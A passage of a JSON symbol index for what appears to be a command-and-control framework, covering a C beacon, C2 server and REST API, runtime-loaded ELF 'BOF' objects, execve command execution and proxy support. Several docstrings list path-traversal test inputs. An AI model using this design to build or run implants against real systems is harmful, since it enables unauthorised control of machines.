"test_tls_client_certificate_authentication_c.c", "language": "c", "sha256": "d94a3f2d7dcab747", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_tls_client_certificate_authentication_placeholder", "signature": "static void test_tls_client_certificate_authentication_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"doc": "Auto-generated test for contract: Unified Config Schema BDD-style tests derived from specification.", "id": "mutants/tests/test_unified_config_schema.py", "kind": "module", "label": "test_unified_config_schema.py", "language": "py", "sha256": "0222472d674df062", "symbol_count": 2, "symbols": [{"doc": "BDD test suite for Unified Config Schema.", "kind": "class", "line": 18, "name": "TestUnifiedConfigSchema", "signature": "class TestUnifiedConfigSchema"}, {"doc": "This test should fail until implementation is complete.", "kind": "method", "line": 21, "name": "test_placeholder_fails_initially", "signature": "def test_placeholder_fails_initially(self)"}]}, {"id": "mutants/tests/test_unified_config_schema_c.c", "kind": "module", "label": "test_unified_config_schema_c.c", "language": "c", "sha256": "ebbeaa964f3e5352", "symbol_count": 2, "symbols": [{"kind": "function", "line": 14, "name": "test_unified_config_schema_placeholder", "signature": "static void test_unified_config_schema_placeholder(void **state)"}, {"kind": "function", "line": 21, "name": "main", "signature": "int main(void)"}]}, {"id": "mutmut_config.py", "kind": "module", "label": "mutmut_config.py", "language": "py", "sha256": "9fa91c2170359cfc", "symbol_count": 0, "symbols": []}, {"doc": "C Mutation Testing Script  This script performs mutation testing on C code by: 1. Creating mutated copies of source files 2. Compiling and running tests against each mutant 3. Reporting killed vs surviving mutants  Mutation operators: - Arithmetic replacement (+ -> -, - -> +, * -> /, / -> *) - Relational replacement (< -> >, > -> <, <= -> >=, >= -> <=, == -> !=, != -> ==) - Logical replacement (&& -> ||, || -> &&, ! -> (removed)) - Constant replacement (0 -> 1, 1 -> 0, -1 -> 1, TRUE -> FALSE, FALSE -> TRUE) - Statement deletion (remove entire statements) - Return value replacement (return 0 -> return 1, etc.)", "id": "scripts/mutation_test_c.py", "kind": "module", "label": "mutation_test_c.py", "language": "py", "sha256": "0888a177472807c7", "symbol_count": 6, "symbols": [{"doc": "Check if file should be mutated.", "kind": "function", "line": 73, "name": "should_mutate", "signature": "def should_mutate(filepath)"}, {"doc": "Find lines that can be mutated. Returns (line_num, original, mutated, operator).", "kind": "function", "line": 82, "name": "find_mutable_lines", "signature": "def find_mutable_lines(content)"}, {"doc": "Apply a single mutation to content.", "kind": "function", "line": 103, "name": "apply_mutation", "signature": "def apply_mutation(content, line_num, mutated_line)"}, {"doc": "Compile and run a specific test against mutant code.", "kind": "function", "line": 111, "name": "compile_and_test", "signature": "def compile_and_test(mutant_dir, test_name)"}, {"doc": "Run mutation testing on all C source files.", "kind": "function", "line": 136, "name": "run_mutation_test", "signature": "def run_mutation_test()"}, {"kind": "function", "line": 222, "name": "main", "signature": "def main()"}]}, {"doc": "Auto-generated implementation for contract: Async I/O for Beacon", "id": "src/async_i_o_for_beacon.c", "kind": "module", "label": "async_i_o_for_beacon.c", "language": "c", "sha256": "1aceb3d4e3a97846", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "async_i_o_for_beacon_process", "signature": "bool async_i_o_for_beacon_process(void)"}]}, {"doc": "Auto-generated implementation for contract: beacon_common.c Extraction", "id": "src/beacon_common.c_extraction.c", "kind": "module", "label": "beacon_common.c_extraction.c", "language": "c", "sha256": "070dac3e99af9773", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: Beacon Heartbeat / Health Endpoint", "id": "src/beacon_heartbeat___health_endpoint.c", "kind": "module", "label": "beacon_heartbeat___health_endpoint.c", "language": "c", "sha256": "47bae8bfa60b1155", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "beacon_heartbeat___health_endpoint_process", "signature": "bool beacon_heartbeat___health_endpoint_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF API Versioning", "id": "src/bof_api_versioning.c", "kind": "module", "label": "bof_api_versioning.c", "language": "c", "sha256": "01f258c9a1c88b25", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_api_versioning_process", "signature": "bool bof_api_versioning_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF Path Traversal Hardening", "id": "src/bof_path_traversal_hardening.c", "kind": "module", "label": "bof_path_traversal_hardening.c", "language": "c", "sha256": "5a91ebd727a1ca2b", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_path_traversal_hardening_process", "signature": "bool bof_path_traversal_hardening_process(void)"}]}, {"doc": "Auto-generated implementation for contract: BOF Streaming (Large Outputs)", "id": "src/bof_streaming_(large_outputs).c", "kind": "module", "label": "bof_streaming_(large_outputs).c", "language": "c", "sha256": "e4168ced9113f29a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "bof_streaming_", "signature": "bool bof_streaming_(large_outputs)_process(void)"}]}, {"doc": "Auto-generated implementation for contract: C2 REST API", "id": "src/c2_rest_api.c", "kind": "module", "label": "c2_rest_api.c", "language": "c", "sha256": "6eeb0721c38455e1", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "c2_rest_api_process", "signature": "bool c2_rest_api_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Certificate Pinning / TOFU", "id": "src/certificate_pinning___tofu.c", "kind": "module", "label": "certificate_pinning___tofu.c", "language": "c", "sha256": "528dee1988e42485", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "certificate_pinning___tofu_process", "signature": "bool certificate_pinning___tofu_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Command Execution via execve", "id": "src/command_execution_via_execve.c", "kind": "module", "label": "command_execution_via_execve.c", "language": "c", "sha256": "d203df5b7646cd57", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "command_execution_via_execve_process", "signature": "bool command_execution_via_execve_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Containerized Build + SBOM", "id": "src/containerized_build_+_sbom.c", "kind": "module", "label": "containerized_build_+_sbom.c", "language": "c", "sha256": "ec6a84ab47c18087", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: HKDF Key Derivation", "id": "src/hkdf_key_derivation.c", "kind": "module", "label": "hkdf_key_derivation.c", "language": "c", "sha256": "e7a02928f84cc7a0", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "hkdf_key_derivation_process", "signature": "bool hkdf_key_derivation_process(void)"}]}, {"doc": "Auto-generated implementation for contract: IV Generation with Entropy Verification", "id": "src/iv_generation_with_entropy_verification.c", "kind": "module", "label": "iv_generation_with_entropy_verification.c", "language": "c", "sha256": "06e70c33a601ad9f", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "iv_generation_with_entropy_verification_process", "signature": "bool iv_generation_with_entropy_verification_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Mutation Testing Integration", "id": "src/mutation_testing_integration.c", "kind": "module", "label": "mutation_testing_integration.c", "language": "c", "sha256": "55854069c4375edb", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "mutation_testing_integration_process", "signature": "bool mutation_testing_integration_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Pre-commit + CI Hardening", "id": "src/pre-commit_+_ci_hardening.c", "kind": "module", "label": "pre-commit_+_ci_hardening.c", "language": "c", "sha256": "00e801d094650a4a", "symbol_count": 0, "symbols": []}, {"doc": "Auto-generated implementation for contract: Replay Protection", "id": "src/replay_protection.c", "kind": "module", "label": "replay_protection.c", "language": "c", "sha256": "bca751f9b940e563", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "replay_protection_process", "signature": "bool replay_protection_process(void)"}]}, {"doc": "Auto-generated implementation for contract: SOCKS5 / HTTP Proxy Support", "id": "src/socks5___http_proxy_support.c", "kind": "module", "label": "socks5___http_proxy_support.c", "language": "c", "sha256": "af9a59900e1095d4", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "socks5___http_proxy_support_process", "signature": "bool socks5___http_proxy_support_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Structured JSONL Logging", "id": "src/structured_jsonl_logging.c", "kind": "module", "label": "structured_jsonl_logging.c", "language": "c", "sha256": "a6408f619a051f83", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "structured_jsonl_logging_process", "signature": "bool structured_jsonl_logging_process(void)"}]}, {"doc": "Auto-generated implementation for contract: TLS Client Certificate Authentication", "id": "src/tls_client_certificate_authentication.c", "kind": "module", "label": "tls_client_certificate_authentication.c", "language": "c", "sha256": "c81ffbd4a0179687", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "tls_client_certificate_authentication_process", "signature": "bool tls_client_certificate_authentication_process(void)"}]}, {"doc": "Auto-generated implementation for contract: Unified Config Schema", "id": "src/unified_config_schema.c", "kind": "module", "label": "unified_config_schema.c", "language": "c", "sha256": "426ed26634ce1b2a", "symbol_count": 1, "symbols": [{"kind": "function", "line": 6, "name": "unified_config_schema_process", "signature": "bool unified_config_schema_process(void)"}]}, {"id": "tests/config_harness.c", "kind": "module", "label": "config_harness.c", "language": "c", "sha256": "7a2fa01bef296f5d", "symbol_count": 1, "symbols": [{"kind": "function", "line": 24, "name": "main", "signature": "int main(void)"}]}, {"id": "tests/crypto_harness.c", "kind": "module", "label": "crypto_harness.c", "language": "c", "sha256": "6e5616567fac0a92", "symbol_count": 2, "symbols": [{"kind": "function", "line": 12, "name": "hex_to_bytes", "signature": "static int hex_to_bytes(const char *hex, unsigned char *out, size_t outlen)"}, {"kind": "function", "line": 27, "name": "main", "signature": "int main(int argc, char **argv)"}]}, {"doc": "Sanity build test: compile the v1 beacon against include/config.c and verify the binary links and embeds the symbols we expect.  This test is skipped (not failed) if the OpenSSL or libcurl dev headers are missing, so it works on a clean CI runner and on a dev box without those installed. CI installs them explicitly.", "id": "tests/test_beacon_build.py", "kind": "module", "label": "test_beacon_build.py", "language": "py", "sha256": "92344a1d8b56c3ed", "symbol_count": 8, "symbols": [{"doc": "Return True if openssl and curl headers are present.", "kind": "function", "line": 29, "name": "have_headers", "signature": "def have_headers()"}, {"kind": "function", "line": 43, "name": "compile_beacon", "signature": "def compile_beacon()"}, {"kind": "function", "line": 74, "name": "inspect_binary", "signature": "def inspect_binary()"}, {"doc": "Rebuild the beacon if it is missing or older than its sources.\n\ntest_install_deploy.py runs `make clean`, which deletes build/;\na bare `if not BEACON.exists()` check would then inspect a stale\nbinary from an earlier run.", "kind": "function", "line": 79, "name": "ensure_beacon", "signature": "def ensure_beacon()"}, {"kind": "function", "line": 93, "name": "test_beacon_compiles_and_links", "signature": "def test_beacon_compiles_and_links()"}, {"kind": "function", "line": 102, "name": "test_beacon_exposes_bof_api", "signature": "def test_beacon_exposes_bof_api()"}, {"kind": "function", "line": 122, "name": "test_beacon_exposes_elf_loader", "signature": "def test_beacon_exposes_elf_loader()"}, {"kind": "function", "line": 132, "name": "main", "signature": "def main()"}]}, {"doc": "Verify every BOF compiles with the BOF build flags.  A BOF is a position-independent ELF object that the beacon loads at runtime. It must: - compile with -nostdlib (no glibc) - be PIC - export `go` with the right signature - leave BeaconPrintf/BeaconOutput as undefined external refs", "id": "tests/test_bof_compile.py", "kind": "module", "label": "test_bof_compile.py", "language": "py", "sha256": "f097e8344fa4fdff", "symbol_count": 7, "symbols": [{"kind": "function", "line": 21, "name": "compile_bof", "signature": "def compile_bof(name)"}, {"kind": "function", "line": 44, "name": "inspect_symbols", "signature": "def inspect_symbols(obj_path)"}, {"kind": "function", "line": 62, "name": "test_compile_all", "signature": "def test_compile_all()"}, {"kind": "function", "line": 71, "name": "test_export_go", "signature": "def test_export_go()"}, {"kind": "function", "line": 79, "name": "test_unresolved_beacon_api", "signature": "def test_unresolved_beacon_api()"}, {"doc": "Make sure we did not pull in glibc symbols by accident.", "kind": "function", "line": 97, "name": "test_no_libc_leak", "signature": "def test_no_libc_leak()"}, {"kind": "function", "line": 118, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for BOF Path Traversal Hardening (Contract: BOF Path Traversal Hardening)  BDD Scenarios: 1. Given a BOF request with normal name, when handled, then file is served from upload_dir 2. Given a BOF request with path traversal (../), when handled, then BOF_NOT_FOUND returned 3. Given a BOF request with absolute path, when handled, then BOF_NOT_FOUND returned 4. Given a BOF request with URL-encoded traversal, when handled, then BOF_NOT_FOUND returned 5. Given upload_dir symlink, when resolved, then realpath prevents escape", "id": "tests/test_bof_path_traversal.py", "kind": "module", "label": "test_bof_path_traversal.py", "language": "py", "sha256": "2db4f2d33205922a", "symbol_count": 18, "symbols": [{"doc": "Test config for BOF path traversal.", "kind": "class", "line": 25, "name": "TestBOFPathTraversalConfig", "signature": "class TestBOFPathTraversalConfig"}, {"doc": "Test server-side BOF path traversal protection.", "kind": "class", "line": 36, "name": "TestBOFPathTraversalServer", "signature": "class TestBOFPathTraversalServer"}, {"doc": "Tests designed to kill mutants in path traversal protection.", "kind": "class", "line": 175, "name": "TestBOFPathTraversalMutationResistance", "signature": "class TestBOFPathTraversalMutationResistance"}, {"doc": "Given C2State, when initialized, then upload_dir is configured.", "kind": "method", "line": 28, "name": "test_upload_dir_config_exists", "signature": "def test_upload_dir_config_exists(self)"}, {"doc": "Given normal BOF name, when requested, then file is served.", "kind": "method", "line": 39, "name": "test_normal_bof_name_served", "signature": "def test_normal_bof_name_served(self)"}, {"doc": "Given BOF name with ../, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 53, "name": "test_path_traversal_parent_dir_rejected", "signature": "def test_path_traversal_parent_dir_rejected(self)"}, {"doc": "Given BOF name with ../../../, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 65, "name": "test_path_traversal_multiple_parent_dirs_rejected", "signature": "def test_path_traversal_multiple_parent_dirs_rejected(self)"}, {"doc": "Given BOF name with subdir/../, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 77, "name": "test_path_traversal_with_subdir_rejected", "signature": "def test_path_traversal_with_subdir_rejected(self)"}, {"doc": "Given absolute path, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 89, "name": "test_absolute_path_rejected", "signature": "def test_absolute_path_rejected(self)"}, {"doc": "Given URL-encoded ../ (%2e%2e%2f), when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 101, "name": "test_url_encoded_traversal_rejected", "signature": "def test_url_encoded_traversal_rejected(self)"}, {"doc": "Given double URL-encoded ../ (%252e%252e%252f), when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 114, "name": "test_double_url_encoded_traversal_rejected", "signature": "def test_double_url_encoded_traversal_rejected(self)"}, {"doc": "Given name with null byte, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 126, "name": "test_null_byte_injection_rejected", "signature": "def test_null_byte_injection_rejected(self)"}, {"doc": "Given upload_dir is symlink, when resolved, then realpath prevents escape.", "kind": "method", "line": 138, "name": "test_upload_dir_symlink_escape_prevented", "signature": "def test_upload_dir_symlink_escape_prevented(self)"}, {"doc": "Given symlink inside upload_dir pointing outside, when requested, then BOF_NOT_FOUND.", "kind": "method", "line": 156, "name": "test_symlink_outside_upload_dir_rejected", "signature": "def test_symlink_outside_upload_dir_rejected(self)"}, {"doc": "Mutant: only using os.path.basename. Test: basename doesn't prevent all traversal.", "kind": "method", "line": 178, "name": "test_basename_not_sufficient_protection", "signature": "def test_basename_not_sufficient_protection(self)"}, {"doc": "Mutant: prefix check changed to startswith without realpath. Test: must use realpath.", "kind": "method", "line": 186, "name": "test_realpath_prefix_check_not_mutated", "signature": "def test_realpath_prefix_check_not_mutated(self)"}, {"doc": "Mutant: case-insensitive comparison. Test: Linux filesystem is case-sensitive.", "kind": "method", "line": 216, "name": "test_case_sensitivity_on_linux", "signature": "def test_case_sensitivity_on_linux(self)"}, {"doc": "Mutant: Unicode normalization bypass. Test: NFC/NFD normalization handled.", "kind": "method", "line": 234, "name": "test_unicode_normalization_not_mutated", "signature": "def test_unicode_normalization_not_mutated(self)"}]}, {"doc": "End-to-end integration test: C2 Server + Beacon + BOF execution.  This test: 1. Starts the C2 server in a background thread 2. Runs the beacon as a subprocess 3. Injects a BOF command via the C2 REPL 4. Waits for the beacon to execute the BOF and report results 5. Verifies the BOF output matches expected 6. Cleans up beacon and C2 server", "id": "tests/test_c2_beacon_bof_integration.py", "kind": "module", "label": "test_c2_beacon_bof_integration.py", "language": "py", "sha256": "dbe059a2b5db4b3a", "symbol_count": 10, "symbols": [{"doc": "Full integration test: C2 Server + Beacon + BOF.", "kind": "class", "line": 34, "name": "TestC2BeaconBOFIntegration", "signature": "class TestC2BeaconBOFIntegration"}, {"doc": "Pytest entry point.", "kind": "function", "line": 300, "name": "test_c2_beacon_bof_integration", "signature": "def test_c2_beacon_bof_integration()"}, {"doc": "Create temporary directories and config.", "kind": "method", "line": 37, "name": "setup_method", "signature": "def setup_method(self)"}, {"doc": "Clean up temporary files.", "kind": "method", "line": 71, "name": "teardown_method", "signature": "def teardown_method(self)"}, {"doc": "Get a free port.", "kind": "method", "line": 76, "name": "_free_port", "signature": "def _free_port(self)"}, {"doc": "Wait for server to accept connections.", "kind": "method", "line": 84, "name": "_wait_for_server_ready", "signature": "def _wait_for_server_ready(self, host, port, timeout)"}, {"doc": "Poll for BOF result in the CSV log; returns the output column.", "kind": "method", "line": 98, "name": "_wait_for_bof_result", "signature": "def _wait_for_bof_result(self, state, client_id, timeout)"}, {"doc": "Test: Beacon executes whoami BOF and returns output.", "kind": "method", "line": 118, "name": "test_beacon_executes_whoami_bof", "signature": "def test_beacon_executes_whoami_bof(self)"}, {"kind": "method", "line": 283, "name": "_run_server", "signature": "def _run_server(self, cfg, state)"}, {"kind": "method", "line": 286, "name": "_wait_for_server_ready", "signature": "def _wait_for_server_ready(self, host, port, timeout)"}]}, {"doc": "End-to-end test: a real HTTP/1.1 client talks to a real TCP socket bound by server.serve(), and the full crypto roundtrip works.  This catches the wire-format mismatch that bit us before: the beacon speaks HTTP/1.1 (libcurl), the server used to expect a raw Gopher selector. They could not talk.  We use a free port, run the server in a daemon thread, and drive it with raw sockets — no libcurl, no real network loopback surprises.", "id": "tests/test_c2_http_e2e.py", "kind": "module", "label": "test_c2_http_e2e.py", "language": "py", "sha256": "e323ef83de915811", "symbol_count": 9, "symbols": [{"kind": "function", "line": 45, "name": "_free_port", "signature": "def _free_port()"}, {"kind": "function", "line": 53, "name": "_recv_response", "signature": "def _recv_response(sock, timeout)"}, {"doc": "Beacon-style HTTP/1.1 GET /<uri>/<id> must return a base64\nbody the server can encrypt and we can decrypt with the shared\nAES key. Before the fix, the server returned iUNKNOWN_SELECTOR.", "kind": "function", "line": 67, "name": "test_http_get_poll_returns_encrypted_command", "signature": "def test_http_get_poll_returns_encrypted_command()"}, {"doc": "Beacon-style HTTP/1.1 POST /report/<b64> must reach the\nreport handler, decrypt, parse, and write a CSV row. Before\nthe fix, the POST went to the same URL as the GET (poll),\nso the server logged an UNKNOWN_SELECTOR error and the\nCSV never had a row for this client.", "kind": "function", "line": 122, "name": "test_http_post_report_writes_log", "signature": "def test_http_post_report_writes_log()"}, {"doc": "The old Gopher-style selector (single line, CRLF) must\nstill dispatch correctly — server.py keeps that path so\nanything that depended on it is not broken by the new\nHTTP/1.1 entry point.", "kind": "function", "line": 192, "name": "test_gopher_legacy_still_works", "signature": "def test_gopher_legacy_still_works()"}, {"doc": "The beacon percent-encodes the base64 payload before\nsplicing it onto the URL path. Standard base64 uses '+',\n'/', and '=' which would otherwise produce an invalid\nHTTP request line (extra '/' would split the path, '+'\nis space-encoded, '=' is a query marker). This test\nreplicates that: encode the payload exactly as the\nbeacon does, send it, and assert the report is decrypted\nand logged.", "kind": "function", "line": 246, "name": "test_http_post_with_url_encoded_b64_payload", "signature": "def test_http_post_with_url_encoded_b64_payload()"}, {"doc": "When the client sends a long POST URL that crosses a TCP\nsegment boundary, the first recv() inside server.serve() may\nnot include \"HTTP/1.1\" yet. Before the _read_http_request\nfix, this made the dispatcher fall through to the legacy\nGopher branch and return iUNKNOWN_SELECTOR. We reproduce that\nfragmentation here by sending the request in two pieces with\na small delay between them. The expected behavior is that the\nserver still parses the full request, decrypts, and writes\nthe log line.", "kind": "function", "line": 347, "name": "test_fragmented_post_is_dispatched_as_http", "signature": "def test_fragmented_post_is_dispatched_as_http()"}, {"kind": "function", "line": 422, "name": "main", "signature": "def main()"}, {"kind": "function", "line": 288, "name": "encode", "signature": "def encode(s)"}]}, {"doc": "Unit tests for the C2 server dispatcher.  We import the dispatcher from c2/server.py and exercise handle_request() with synthetic selectors. No socket, no threading, no real network - just the pure function.", "id": "tests/test_c2_server.py", "kind": "module", "label": "test_c2_server.py", "language": "py", "sha256": "174f13d3a6271629", "symbol_count": 11, "symbols": [{"kind": "function", "line": 41, "name": "make_state", "signature": "def make_state(tmp)"}, {"kind": "function", "line": 48, "name": "test_get_command_empty", "signature": "def test_get_command_empty()"}, {"kind": "function", "line": 60, "name": "test_get_command_queued", "signature": "def test_get_command_queued()"}, {"kind": "function", "line": 71, "name": "test_report_writes_log", "signature": "def test_report_writes_log()"}, {"kind": "function", "line": 96, "name": "test_bof_not_found", "signature": "def test_bof_not_found()"}, {"kind": "function", "line": 103, "name": "test_bof_serves_existing_file", "signature": "def test_bof_serves_existing_file()"}, {"kind": "function", "line": 115, "name": "test_unknown_selector", "signature": "def test_unknown_selector()"}, {"doc": "Path-traversal in /bof/ should be neutralised by os.path.basename.", "kind": "function", "line": 122, "name": "test_path_traversal_in_bof_name", "signature": "def test_path_traversal_in_bof_name()"}, {"doc": "encrypt then decrypt empty payload must yield single NUL byte.", "kind": "function", "line": 131, "name": "test_roundtrip_empty", "signature": "def test_roundtrip_empty()"}, {"kind": "function", "line": 138, "name": "test_roundtrip_text", "signature": "def test_roundtrip_text()"}, {"kind": "function", "line": 145, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for Certificate Pinning / TOFU (Contract: Certificate Pinning / TOFU)  BDD Scenarios: 1. Given a config with cert_fingerprint_sha256, when beacon connects, then it pins the certificate 2. Given a config without cert_fingerprint_sha256, when beacon connects first time, then it stores fingerprint (TOFU) 3. Given a mismatched fingerprint, when beacon connects, then it fails closed 4. Given valid fingerprint, when beacon connects, then it succeeds", "id": "tests/test_certificate_pinning.py", "kind": "module", "label": "test_certificate_pinning.py", "language": "py", "sha256": "8cc7899afefaa0cf", "symbol_count": 24, "symbols": [{"doc": "Test config loading for certificate pinning.", "kind": "class", "line": 23, "name": "TestCertificatePinningConfig", "signature": "class TestCertificatePinningConfig"}, {"doc": "Test C config loading for certificate pinning.", "kind": "class", "line": 86, "name": "TestCertificatePinningCConfig", "signature": "class TestCertificatePinningCConfig"}, {"doc": "Integration tests for certificate pinning with a live TLS endpoint.\n\nThe beacon downloads the BOF from an HTTPS URL given in the\n`bof:` command, so pinning is exercised against a local TLS server\n(self-signed cert, verify_tls=false) while the C2 stays plain HTTP.", "kind": "class", "line": 96, "name": "TestCertificatePinningIntegration", "signature": "class TestCertificatePinningIntegration"}, {"doc": "Tests designed to kill mutants - each test targets a specific mutation.", "kind": "class", "line": 321, "name": "TestCertificatePinningMutationResistance", "signature": "class TestCertificatePinningMutationResistance"}, {"doc": "Given config with empty cert_fingerprint_sha256, when loaded, then fingerprint is empty string.", "kind": "method", "line": 26, "name": "test_config_loads_empty_fingerprint", "signature": "def test_config_loads_empty_fingerprint(self)"}, {"doc": "Given config with valid 64-char hex fingerprint, when loaded, then fingerprint is stored.", "kind": "method", "line": 38, "name": "test_config_loads_valid_fingerprint", "signature": "def test_config_loads_valid_fingerprint(self)"}, {"doc": "Given config with invalid fingerprint length, when loaded, then ValueError is raised.", "kind": "method", "line": 51, "name": "test_config_rejects_invalid_fingerprint_length", "signature": "def test_config_rejects_invalid_fingerprint_length(self)"}, {"doc": "Given config with non-hex fingerprint, when loaded, then ValueError is raised.", "kind": "method", "line": 62, "name": "test_config_rejects_non_hex_fingerprint", "signature": "def test_config_rejects_non_hex_fingerprint(self)"}, {"doc": "Given config without cert_fingerprint_sha256 field, when loaded, then defaults to empty string.", "kind": "method", "line": 73, "name": "test_config_defaults_to_empty_fingerprint", "signature": "def test_config_defaults_to_empty_fingerprint(self)"}, {"doc": "Given config with cert_fingerprint_sha256 field, when C loader parses, then field is accessible.", "kind": "method", "line": 89, "name": "test_c_config_parses_fingerprint_field", "signature": "def test_c_config_parses_fingerprint_field(self)"}, {"kind": "method", "line": 106, "name": "_free_port", "signature": "def _free_port(self)"}, {"doc": "Self-signed cert + hex pin of the subject public key (curl pins SPKI).", "kind": "method", "line": 114, "name": "_gen_cert_and_pin", "signature": "def _gen_cert_and_pin(self)"}, {"doc": "Serve `body` (bytes) over HTTPS until the returned stop event is set.", "kind": "method", "line": 149, "name": "_start_tls_server", "signature": "def _start_tls_server(self, port, cert_pem, key_pem, body)"}, {"doc": "Drive the C2+beacon round-trip; beacon downloads the BOF over\nTLS (served with cert_pem/key_pem) while pinning `pin_hex`.\nReturns the BOF output column from the C2 log (or None).", "kind": "method", "line": 181, "name": "_run_beacon_with_bof_tls", "signature": "def _run_beacon_with_bof_tls(self, cert_pem, key_pem, pin_hex)"}, {"doc": "Given a beacon with a pinned certificate fingerprint (64 hex chars),\nWhen it connects to a TLS endpoint presenting the matching key,\nThen the pinned download succeeds and the BOF output reaches the C2.", "kind": "method", "line": 282, "name": "test_beacon_verifies_pinned_certificate", "signature": "def test_beacon_verifies_pinned_certificate(self)"}, {"doc": "Given a beacon pinned to one key,\nWhen the TLS endpoint presents a different key,\nThen the download fails closed (no BOF output).", "kind": "method", "line": 293, "name": "test_beacon_rejects_mismatched_certificate", "signature": "def test_beacon_rejects_mismatched_certificate(self)"}, {"doc": "Given a beacon with no pinned fingerprint (TOFU mode),\nWhen it connects to C2 for the first time,\nThen it stores the fingerprint for future connections.\n\nNOTE: TOFU persistence is NOT implemented yet (contract gap):\nthe beacon only pins what the config provides and never\npersists a first-seen fingerprint. Kept skipped until the\nbeacon gains fingerprint persistence.", "kind": "method", "line": 307, "name": "test_tofu_first_connection_stores_fingerprint", "signature": "def test_tofu_first_connection_stores_fingerprint(self)"}, {"doc": "Mutant: if (cfg->network.cert_fingerprint_sha256[0] != '\u0000') -> if (1)\nTest: Empty fingerprint should NOT enable pinning.", "kind": "method", "line": 324, "name": "test_fingerprint_empty_check_not_mutated_to_always_true", "signature": "def test_fingerprint_empty_check_not_mutated_to_always_true(self)"}, {"doc": "Mutant: hex validation regex changed to accept invalid chars\nTest: Non-hex chars must be rejected.", "kind": "method", "line": 334, "name": "test_fingerprint_hex_validation_not_mutated", "signature": "def test_fingerprint_hex_validation_not_mutated(self)"}, {"doc": "Mutant: CURLOPT_PINNEDPUBLICKEY set unconditionally\nTest: Pin option should only be set when fingerprint is non-empty.", "kind": "method", "line": 346, "name": "test_pin_option_set_only_when_fingerprint_present", "signature": "def test_pin_option_set_only_when_fingerprint_present(self)"}, {"kind": "class", "line": 155, "name": "Handler", "signature": "class Handler(BaseHTTPRequestHandler)"}, {"kind": "function", "line": 171, "name": "_run", "signature": "def _run()"}, {"kind": "method", "line": 156, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 162, "name": "log_message", "signature": "def log_message(self)"}]}, {"id": "tests/test_certificate_pinning_c.c", "kind": "module", "label": "test_certificate_pinning_c.c", "language": "c", "sha256": "7dfac48609eefc95", "symbol_count": 5, "symbols": [{"doc": "#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the config header #include \"config.h\" /* Test that cert_fingerprint_sha256 field exists and defaults to empty", "kind": "function", "line": 19, "name": "test_cert_fingerprint_defaults_to_empty", "signature": "static void test_cert_fingerprint_defaults_to_empty(void **state)"}, {"doc": "/* Include the config header #include \"config.h\" /* Test that cert_fingerprint_sha256 field exists and defaults to empty static void test_cert_fingerprint_defaults_to_empty(void **state) { (void)state; bsb_config_t cfg; char err[512]; int r = bsb_config_load(\"config/config.example.json\", &cfg, err, sizeof(err)); assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, \"\"); } /* Test that cert_fingerprint_sha256 can be loaded from config", "kind": "function", "line": 29, "name": "test_cert_fingerprint_loads_from_config", "signature": "static void test_cert_fingerprint_loads_from_config(void **state)"}, {"doc": "fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load(\"/tmp/test_cert_fp.json\", &cfg, err, sizeof(err)); assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, \"a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2\"); unlink(\"/tmp/test_cert_fp.json\"); } /* Test that invalid fingerprint (wrong length) fails", "kind": "function", "line": 55, "name": "test_cert_fingerprint_invalid_length_fails", "signature": "static void test_cert_fingerprint_invalid_length_fails(void **state)"}, {"doc": "The C parser doesn't validate fingerprint length strictly, it just reads the string. Validation is done at runtime when libcurl uses it. So this should succeed in parsing. * The test verifies the parser doesn't crash. assert_int_equal(r, 0); assert_string_equal(cfg.network.cert_fingerprint_sha256, \"abc\"); unlink(\"/tmp/test_cert_fp_bad.json\"); } /* Test that network struct has cert_fingerprint_sha256 field", "kind": "function", "line": 82, "name": "test_network_struct_has_fingerprint_field", "signature": "static void test_network_struct_has_fingerprint_field(void **state)"}, {"kind": "function", "line": 90, "name": "main", "signature": "int main(void)"}]}, {"doc": "Unit tests for the BSB JSON config loader.  We exercise the loader via a small C harness compiled with the config.c source. The Python side just calls the harness binary and checks the printed fields.  The harness prints lines in the form \"key=value\" so we can parse the output deterministically.", "id": "tests/test_config.py", "kind": 